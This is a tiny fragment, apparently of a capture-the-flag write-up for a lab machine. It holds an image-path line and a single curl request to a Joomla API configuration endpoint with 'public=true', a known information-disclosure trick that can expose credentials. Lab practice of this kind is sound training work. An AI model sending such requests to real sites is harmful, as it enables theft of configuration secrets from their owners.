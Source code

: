 ### Basic Command
```
curl "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true" 
```
